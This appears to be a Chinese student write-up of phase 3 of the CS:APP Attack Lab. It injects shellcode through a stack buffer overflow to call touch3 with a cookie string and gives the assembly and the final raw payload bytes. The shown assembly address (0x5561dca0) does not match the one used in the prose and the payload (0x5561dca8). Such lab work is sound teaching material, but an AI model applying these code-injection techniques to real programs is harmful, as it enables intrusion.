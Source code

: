 ```
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    /* Make position of check string unpredictable */ 
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval){
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    }else{
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
乍一看，hexmatch里面有一个random函数，不知道怎么办，但仔细看下来，发现这个根本就不影响结果。可能是出于什么其他的原因吧。所以，这个函数和上一个比起来，好像有点复杂，但其实都是一样的。唯一不一样的地方可能是需要自己构造一个字符串，但是还是比较简单。因为函数返回地址后面还可以溢出，这样，我们就可以把我们构造的字符串放在这里。注意，这里需要查ASCII表。

所以，这里我们需要做的事情有，得到touch3的函数地址，构造cookie字符串，然后编写汇编代码，汇编代码需要执行的操作是，把我们构造的字符串地址作为第一个参数，调用touch3函数。前面我们已经得到了getbuf函数中buf的首地址为0x5561dc78 ，所以我们构造的字符串的首地址为0x5561dc78 + 0x28 + 0x8 = 0x5561dca8。通过和上面类似的方法，得到touch3函数的地址为0x4018fa。所以我们的汇编代码c3.s为。
```
mov $0x5561dca0, %edi
pushq $0x4018fa
ret
```
使用gcc得到对应的二进制代码。
```
	0:   bf a0 dc 61 55          mov    $0x5561dca0,%edi
	5:   68 fa 18 40 00          pushq  $0x4018fa
	a:   c3                      retq   
```
我们这里的cookie为0x59b997fa，对应的字符的16进制形式为。

```
35 39 62 39 39 37 66 61 00
```
所以，最后的答案为：
```
bf a8 dc 61 55 68 fa 18
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 //buf地址
35 39 62 39 39 37 66 61 //字符串
00 
```

